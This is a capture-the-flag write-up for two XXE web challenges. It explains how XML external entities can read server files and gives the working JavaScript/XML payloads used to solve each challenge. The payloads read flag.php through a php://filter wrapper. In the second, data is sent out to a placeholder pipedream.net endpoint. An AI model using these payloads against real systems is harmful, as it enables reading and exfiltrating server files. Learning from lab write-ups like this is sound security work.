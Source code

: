 # XXE

## XXE1 [https://xxe1.secu-web.blackfoot.dev/]

### Description

XML External Entity (XXE) is a vulnerability that allows an attacker to read files on the server, or even perform SSRF attacks, through the use of XML entities. This vulnerability is often found in web applications that parse XML input.
The website offers a simple user input which get converted into b64 encoded XML and then displayed back to us.
The goal for getting the flag on XXE is to change the XML data sent to the server.
BY using vulnerabilities on the "ENTITY" element,we can insert custom functionality like returning a file flag.

### Solution

The server is already printing the XML data sent to it, so we can just modify the data to include an entity that will read the flag file.
We can modify the source code that is doing the sending, as shown below:
```
const message = "d"
const xml_payload = `<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php" >]>
<document>
 <message>&xxe;</message>
 </document>`;

    let g = $.ajax({
      url: "index.php",
      type: "POST",
      data: { xml: btoa(xml_payload) },
      success: response => {
        document.getElementById("error").text = response;
          console.log(g.getAllResponseHeaders(),"\n",response)
      }
    });
```

## XXE2 [https://xxe2.secu-web.blackfoot.dev/]

### Description

Same as XXE1, but we don't have conventient printing of the xml data return, so we need to find a way to get the base64 encoded data to a place we can see it.

### Solution

Similar script to XXE1, but now we have b64 exfil to a public endpoint.

```
const message = "d"
const xml_payload =
      `<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php" >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=https://YOUR_URL.m.pipedream.net">
%file;
]>
<document>
 <message>&xxe;</message>
 </document>    `;

    let g = $.ajax({
      url: "index.php",
      type: "POST",
      data: { xml: btoa(xml_payload) },
      success: response => {
        document.getElementById("error").text = response;
          console.log(g.getAllResponseHeaders(),"\n",response)
      }
    });
```

#### Screenshots

#### Resources
 - https://www.pipedream.com/